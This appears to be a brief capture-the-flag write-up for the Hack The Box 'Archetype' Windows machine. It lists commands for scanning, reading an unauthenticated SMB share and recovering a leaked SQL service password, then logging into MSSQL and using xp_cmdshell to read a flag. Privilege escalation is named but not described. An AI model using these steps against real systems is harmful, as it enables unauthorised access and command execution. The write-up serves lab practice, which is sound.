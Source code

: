 # Archetype 

> Easy | Windows 

<br>

### Process:
1) run autorecon
- `sudo python3 autorecon 10.10.10.27`
- found:
  - 135,139,445 (NetBIOS)
  - 1433 (mssql)

<br>

2a) enumerate 135,139,445 (NetBIOS):
- found share "backups" that was read only
  - connect and inspect with no password: `smbclient //10.10.10.27/backups -N`
  - found "prod.dtsConfig" -- contains password information for sql:
    - ARCHETYPE\sql_svc:M3g4c0rp123
- found share "IPC$" that was read only

<br>

3) try to login to mssql service:
- `python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth` -- sucess
  
4) get user flag:
- `EXEC xp_cmdshell 'type C:\Users\sql_srv\Desktop\user.txt`

<br>

5) get admin flag:
- escalate privileges

